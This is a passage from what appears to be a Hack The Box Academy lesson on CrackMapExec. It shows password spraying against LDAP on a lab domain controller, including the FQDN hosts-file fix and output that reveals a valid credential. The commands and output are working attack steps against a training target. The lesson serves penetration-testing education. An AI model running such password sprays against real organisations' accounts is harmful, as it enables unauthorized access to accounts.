 We can execute commands on the system with the account Peter, who has local admin rights. We will cover more about this in the section [Command Execution](https://academy.hackthebox.com/module/84/section/812).

***

## LDAP - Password Spraying

When doing Password Spraying against the LDAP protocol, we need to use the FQDN otherwise, we will receive an error:

### **Error when using the IP**

```shell-session
$ crackmapexec ldap 10.129.203.121 -u julio grace -p Inlanefreight01!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        10.129.203.121  445    DC01             [-] inlanefreight.htb\julio:Inlanefreight01! Error connecting to the domain, are you sure LDAP service is running on the target ?
LDAP        10.129.203.121  445    DC01             [-] inlanefreight.htb\grace:Inlanefreight01! Error connecting to the domain, are you sure LDAP service is running on the target ?
```

We have two options to solve this issue: configure our attack host to use the domain name server (DNS) or configure the KDC FQDN in our `/etc/hosts` file. Let's go with the second option and add the FQDN to our `/etc/hosts` file:

### **Adding the FQDN to the hosts file and Performing a Password Spray**

```shell-session
$ cat /etc/hosts | grep inlanefreight

10.129.203.121 inlanefreight.htb        dc01.inlanefreight.htb
```

```shell-session
$ crackmapexec ldap dc01.inlanefreight.htb -u julio grace -p Inlanefreight01!

SMB         dc01.inlanefreight.htb  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        dc01.inlanefreight.htb  445    DC01             [-] inlanefreight.htb\julio:Inlanefreight01! 
LDAP        dc01.inlanefreight.htb  389    DC01             [+] inlanefreight.htb\grace:Inlanefreight01
```

***

## Authentication Mechanisms

Some Windows services, such as MSSQL, SSH, or FTP, can be configured to handle their user database or to integrate with Windows. If this is the case, we could try Password Spraying against the local database used by the service, against Active Directory users, or against local users of the computer where the service is installed. Let's see how we can perform a Password Spray against an MSSQL Server via different authentication mechanisms.
